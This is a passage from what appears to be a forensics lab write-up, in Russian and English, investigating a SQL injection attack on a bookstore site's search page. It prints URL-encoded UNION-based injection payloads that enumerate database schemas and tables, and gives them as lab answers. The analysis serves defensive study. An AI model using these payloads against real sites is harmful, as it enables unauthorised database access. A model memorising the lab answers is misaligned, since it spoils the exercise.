 
Список полученных таблиц:

```
["mysql", "information_schema", "performance_schema", "sys", "bookworld_db"]
```

**Answer 5**: `/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-`

---
**Question 6**: Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?

Дальнейшие действия злоумышленника позволили ему получить список таблиц в базах данных:

```
/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Ctable_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%280x626f6f6b776f726c645f6462%29--%20-
```

Подтверждается упомянутый факт исследованием результатов вредоносных запросов, обнаруженных в HTTP-потоке №154 и №157:

![ScreenShot](Labs/screenshots/WebInvestigation-7.png)

![ScreenShot](Labs/screenshots/WebInvestigation-8.png)
